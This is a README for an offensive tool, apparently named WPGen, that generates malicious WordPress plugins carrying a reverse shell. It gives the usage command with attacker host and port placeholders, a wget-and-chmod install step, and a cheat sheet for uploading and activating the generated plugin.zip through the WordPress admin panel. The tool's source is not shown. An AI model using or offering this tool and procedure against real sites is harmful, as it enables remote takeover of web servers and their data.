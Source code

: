 # WPGen

**Auto Generator Malicious Plugins WordPress `(Reverse Shell)`**

![](/screenshot.png)

- <kbd>Use</kbd>

```cmd
root@kali:~# WPGen -l <LHOST> -p <LPORT>
```

- <kbd>Download / Install</kbd>

```cmd
root@kali:~# wget -q "https://raw.githubusercontent.com/d4t4s3c/WPGen/main/WPGen.sh" -O /usr/bin/WPGen
root@kali:~# chmod +x /usr/bin/WPGen
```

- <kbd>Cheat Sheet</kbd>

  * Plugins
    * Add New
    * Upload Plugin
    * Examine
    * Select `plugin.zip`
    * Install New
    * Activate Plugin

---
